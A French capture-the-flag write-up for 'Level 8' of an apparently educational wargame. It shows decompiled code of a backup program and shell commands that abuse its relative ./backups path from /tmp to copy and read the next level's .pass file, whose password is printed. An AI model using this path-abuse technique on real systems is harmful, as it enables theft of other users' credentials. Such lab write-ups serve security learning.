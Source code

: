 # Level 8

On commence par tester l'exécutable.

```
> ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

Le programme attend un argument et semble ouvrir un fichier.
Regardons un peu le code décompilé. 

```C
log_wrapper(arg1, "Starting back up: ", argv[1]);
iVar3 = fopen(argv[1], 0x400da9, 0x400da9);
if (iVar3 == 0) {
	printf("ERROR: Failed to open %s\n", argv[1], argv[1]);
	exit(1);
}
```
L'exécutable attend donc bien un argument, et va ouvrir le fichier en paramètre.
On peut alors tenter de mettre la chemin du `password` de `level09` en argument du programme.

```
> ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
L'exécutable nous met un message d'erreur. Nous pouvons supposer que le programme va créer un dossier `./backups`, crée une copie du fichier passé en argument puis va insérer tout cela dans le dossier `backups`. Un fichier de `log` va également être créé avec les différentes informations du `process`.  Le `chemin` indiqué est un chemin relatif, cela va nous servir pour réaliser un exploit. 

Pour vérifier notre hypothèse, nous allons créer un fichier `test` dans `/tmp` avec une phrase dedans. Puis nous allons lancer le programme avec notre fichier fraîchement créé comme argument.

```
> cd /tmp
> python -c "print 'super verif'" > /tmp/test
> ~/level08 /tmp/test
ERROR: Failed to open ./backups/.log
> mkdir ./backups
> ~/level08 /tmp/test
ERROR: Failed to open ./backups//tmp/test
> mkdir -p ./backups//tmp
> ~/level08 /tmp/test
> cat backups/tmp/test
super verif
```

Nous avons donc crée notre fichier avec du texte dedans. En lançant l'exécutable, nous avons eu plusieurs erreurs, car le dossier `./backups//tmp` n'existait pas, le programme ne pouvait donc pas copier le résultat du fichier `test` dedans.
Notre hypothèse est vérifié. Nous pouvons donc faire la même manipulation pour avec le `chemin` du `password` du `level09`.

```
> cd /tmp
> rm -rf *
> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
> mkdir ./backups
> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
> mkdir -p ./backups//home/users/level09
> ~/level08 /home/users/level09/.pass
> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Nous obtenons bien le `password` du `level09`.
